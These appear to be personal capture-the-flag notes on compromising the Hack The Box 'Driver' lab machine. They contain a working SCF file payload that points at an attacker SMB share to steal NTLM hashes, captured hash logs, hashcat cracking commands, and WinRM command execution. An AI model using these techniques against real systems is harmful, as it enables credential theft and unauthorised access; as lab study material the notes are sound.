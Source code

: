 Box info:
Windows
IP 10.10.11.106

**Enumeration:: **
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 18h51m14s, deviation: 0s, median: 18h51m13s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-07T01:30:02
|_  start_date: 2022-01-07T01:14:57

**dir::**
    + index.php, /images/, /fw_up.php(upload section)
        :requesting UN:PW "MFP firmware Update Center: enter PW for admin"
            + ::UN&PW admin:admin
            + download index.png
                + steghide:: doesnt work on .png
    + fw_up.php
        HTB DesignJet, Ecotank, Laserjet Pro, Mono
            + able to upload on any printer.
            + "GET /fw_up.php?msg=SUCCESS HTTP/1.1"
            + ***Where is upload location?***

**nikto::** 
    + php/7.3.25 
    + Server: Microsoft-IIS/10.0
    + default creds : admin:admin

smb is vuln to scf scripts:: see scf_file_attacks
+ msf6> use auxiliary/server/capture/smb
+ upload @test.scf script::
```
[Shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
+ capture hashes and run hashcat:: SEE:: ![weak_msf_ntlm2_hash](Screenshots/Driver_smb_scf_upload.png)
  + msf6 auxiliary(server/capture/smb) > [*] SMB Captured - 2022-01-06 07:29:15 -0500                               
    NTLMv2 Response Captured from 10.10.11.106:49450 - 10.10.11.106
    USER:tony DOMAIN:DRIVER OS: LM:
    LMHASH:Disabled
    LM_CLIENT_CHALLENGE:Disabled
    NTHASH:ad9b22a109fc9748b005176a30a7f24b
    NT_CLIENT_CHALLENGE:0101000000000000acc1da0d9703d801a0d96d845d3f38d300000000020000000000000000000000

**responder works much better than msfconsole::**  see::![proper_ntlmv2_hash](Screenshots/driver_scf_smb.png)

+ john --format=nt hash.txt
  + hashcat -m 5600 ntlmhashes.txt /usr/share/wordlists/rockyou.txt (seclist:: milw0rmdictionary.txt >> rockyou.txt )
    + creds: tony:liltony

+ rpcdump.py 10.10.11.106 -p 135 :: provides multiple vuln services in hacktricks                                                      1 ⨯

+ msfconsole> use auxiliary/scanner/winrm/winrm_cmd see [winRM_cmd](Screenshots/driver_winrm_cmd.png))
  + set cmd pwd :: C:\Users\tony\Documents
  + set cmd "cd ..\Desktop\ ; dir ; more user.txt" ![pwd_enum](Screenshots/driver_pwd_enum.png)


+TODO: impacket.dcerpc.v5.rprn.DCERPCSessionError: RPRN SessionError: code: 0x3a - ERROR_BAD_NET_RESP - The specified server cannot perform the requested operation.
Can't run printernightmare CVE-2021-1675
CVE-2021-1675 not working - see ![hmmmm](Screenshots/CVE20211675_no_workie.png)
    + https://github.com/cube0x0/CVE-2021-1675

[](https://github.com/cube0x0/CVE-2021-1675)
[](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)
[scf_file_attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
[cracking_windows_hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)